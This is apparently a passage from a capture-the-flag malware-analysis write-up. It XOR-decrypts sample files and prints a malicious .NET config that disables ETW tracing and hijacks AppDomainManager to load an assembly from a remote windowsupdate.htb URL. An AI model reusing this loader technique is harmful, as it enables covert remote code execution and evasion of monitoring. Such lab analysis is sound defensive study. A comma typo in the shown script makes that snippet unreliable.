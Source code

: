 ```py
def main():
    file_paths = [
        'csrss.exe,'
        'csrss.exe.config',
        'wanted.pdf'
    ]
    
    key_path = 'csrss.dll'
    
    for file_path in file_paths:
        if os.path.exists(file_path):
            xor_decrypt(file_path, key_path)
        else:
            print(f"File {file_path} does not exist.")

if __name__ == "__main__":
    main()

```

Now we have the decrypted files

```
$ file *
csrss.exe:        PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
csrss.exe.config: data
wanted.pdf:       PDF document, version 1.3, 1 page(s)
```

Going through those files doesn't give anything much except for `csrss.exe.config`

```
$ strings csrss.exe.config
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="dfsvc" publicKeyToken="205fcab1ea048820" culture="neutral" />
            <codeBase version="0.0.0.0" href="http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="dfsvc, Version=0.0.0.0, Culture=neutral, PublicKeyToken=205fcab1ea048820" />
      <appDomainManagerType value="dfsvc" />
   </runtime>
</configuration>
```
We can see another URL on that config file. Download it.

# Reversing AES encryption
